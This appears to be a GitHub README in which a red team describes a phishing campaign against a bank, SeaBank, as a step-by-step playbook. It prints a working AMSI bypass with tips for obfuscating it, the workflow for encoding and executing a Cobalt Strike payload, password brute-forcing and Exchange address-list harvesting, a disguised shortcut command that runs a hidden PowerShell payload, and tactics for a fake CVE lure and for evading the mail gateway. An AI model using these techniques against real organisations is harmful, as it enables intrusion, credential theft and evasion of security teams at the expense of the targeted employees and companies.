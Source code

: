 <h1 align="center">🎣 My Phishing Case - SeaBank 🎣</h1>

## I.Create Malware - Simple CobaltStrike-Agent Runner
1. Encode the Payload

The original payload will use the default Cobalt Strike payload in .ps1 format.
Use "Windows Stageless Payload" to reduce detection chances and utilize DNS beaconing to evade outbound TCP connection blocks on the target system.
Then, use "encode.ps1" with the generated payload to obtain a Base64-encoded output.
Copy this output and replace it in "decode.ps1", which will be responsible for decoding and executing the Cobalt Strike payload.
The format of decode.ps1 will be as follows:
<p align="center">
  <img src="https://github.com/user-attachments/assets/c6b7d3a5-190b-4bca-a9ba-f1a4bfb03e65">
</p>

2. Bypass Defender

Regarding the bypass method, since the entire execution process relies on PowerShell, using existing AMSI bypass repositories is sufficient.Recon and information gathering on the target’s antivirus (AV) software is crucial because some bypass techniques only work on specific AVs. Additionally, once a bypass technique is used, it may be blacklisted, so modifying the bypass script (e.g., using string concatenation or encryption) is necessary for each attack.In this campaign, Red Team customized the AmsiScanBuffer bypass method from Rasta-Mouse to evade AV detection. The original AMSI bypass code is as follows:
```
$Win32 = @"

using System;
using System.Runtime.InteropServices;

public class Win32 {

    [DllImport("kernel32")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);

    [DllImport("kernel32")]
    public static extern IntPtr LoadLibrary(string name);

    [DllImport("kernel32")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);

}
"@

Add-Type $Win32

$LoadLibrary = [Win32]::LoadLibrary("am" + "si.dll") #-----------Modify this------------------
$Address = [Win32]::GetProcAddress($LoadLibrary, "Amsi" + "Scan" + "Buffer") #-----------Modify this------------------
$p = 0
[Win32]::VirtualProtect($Address, [uint32]5, 0x40, [ref]$p) #-----------Modify this------------------
$Patch = [Byte[]] (0xB8, 0x57, 0x00, 0x07, 0x80, 0xC3) #-----------Modify this------------------
[System.Runtime.InteropServices.Marshal]::Copy($Patch, 0, $Address, 6)
```
The above patch needs to have its string values and byte sequences obfuscated to avoid detection by signature-based security measures.
## II. Reconnaissance to Create a Target List
1. ruler-linux64
   
In every phishing campaign, from my perspective, if a hacker gains access to any internal email account of a user, the success rate of the campaign is almost absolute. Once they obtain an account, the preparation of the script will be based on the role, department, and position of the user whose account has been compromised. This allows the attacker to target a limited number of users related to the controlled account (avoiding a large scope to prevent triggering alerts).

So first, we will prioritize searching for valid internal accounts. We can use powerful search engines like Intelx or ruler-linux64, combined with common password formats such as "<Company_name>@123", "<Company_name>@1234", "<Company_name>@2024", etc., to perform brute-force attacks.

In this case, I found only one system account with an information notification function—excellent! The power of this account is extremely significant. However, there is a problem: such accounts usually do not have any directly related departments or users. Therefore, selecting a target and preparing the scenario must still be done on a sufficiently large scope.(Later, we were still detected by alerts, but by then, we had enough time to establish a tunnel and a new command-and-control channel—nice try, but I still feel sorry for the SOC team😆)

2. exchanger.py

Creating a target list requires a valid account on the target's Mail Exchange server. This can be done using the "exchanger.py" tool from the Impacket toolkit:
```
python3 exchanger.py DomainName/Username:"Password"@mail.domain.com nspi list-tables
```
The extracted email list will include email addresses, departments, and job titles of all users. This list can be used to compile a target list.

A custom Python script can be created to filter users based on the "title" field. This allows for a more focused attack on a specific department, which reduces scope and increases success rates:

<p align="center">
  <img src="https://github.com/user-attachments/assets/016f7dff-c28e-4a6c-afc9-59c53b0b636a">
</p>

## III. Weaponization
To increase the success rate, the payload-containing attachment will be sent as a ZIP file. This prevents the file format from being immediately visible when the recipient reads the email.

Additionally, the PowerShell script responsible for executing the payload should be hidden from the user's interface by setting its "Hidden Item" attribute:
![image](https://github.com/user-attachments/assets/8e49219f-8bc8-4e00-9915-a582d99b15b9)
Additionally, create a LINK SHORTCUT file in the payload directory to trigger the payload, with the "target" configured as follows:
```
C:\Windows\System32\cmd.exe /c "set STR1=power&& cmd.exe /c %STR1%shell -WindowStyle hidden -exec bypass Import-Module .\Thong_tin_cve\Thong_tin_chi_tiet.ps1
```

<p align="center">
  <img src="https://github.com/user-attachments/assets/f77cc8bb-af2d-42e3-803e-7e8cd288dbe1">
</p>

This shortcut file will call the PowerShell.exe process of the operating system and execute the hidden payload located in the "Thong_tin_cve" folder.

The goal is to trick the user into clicking the shortcut file. To increase the click-through rate, the shortcut icon should be changed to resemble a folder icon (this can be done via the "Change Icon" option).

The folder name, file name, email content, and attached document should be customized according to the selected attack scenario.

In this case, the Red Team is using a fake security advisory about a new Exchange CVE that could lead to personal data leaks. Therefore, all naming conventions (folder, files, email, and attached document) will align with this phishing scenario.

Here is the full-chain of payload:
<p align="center">
  <img src="https://github.com/user-attachments/assets/aa13078f-aac5-4800-9621-67001abd36be">
</p>

## IV. Drop the BOMBS
After completing the setup and weaponization, the final step is to send an email with the attached file to the predefined target list with the following content:

<p align="center">
  <img src="https://github.com/user-attachments/assets/f248c44d-d27f-457b-8f56-05059cdd6500">
</p>

=>And now, just sit back and wait for the targets to take the bait.
<p align="center">
  <img src="https://github.com/user-attachments/assets/c757c30b-c57c-4f4f-b875-5957b517de10">
</p>
<p align="center">
😈Mission accomplished!😈
</p>

## V. Analysis of Strengths and Weaknesses
1. Strengths

✅This technique is extremely easy to implement, has a high success rate, and works well on both EDR and Kaspersky AV.

✅High flexibility and reusability due to using PowerShell as the main platform.

2. Weaknesses

❌Since the technique relies on PowerShell as the main platform, it will not work on Domains or Forests that have a "Disable PowerShell" policy in place. (However, there are ways to bypass such policies—we will discuss this in a separate topic later.)

❌And, of course, the common weakness of all phishing-based malware drop techniques: Mail Gateway. If the Mail Gateway blocks one of the formats we use (even after compression), the malware delivery to the user will not happen. However, this issue can be mitigated by compressing the entire payload and setting a password before sending it. This approach makes preparation more challenging and reduces the success rate, but it helps evade Mail Gateway detection. (Therefore, leveraging new executable formats will open up more possibilities.)







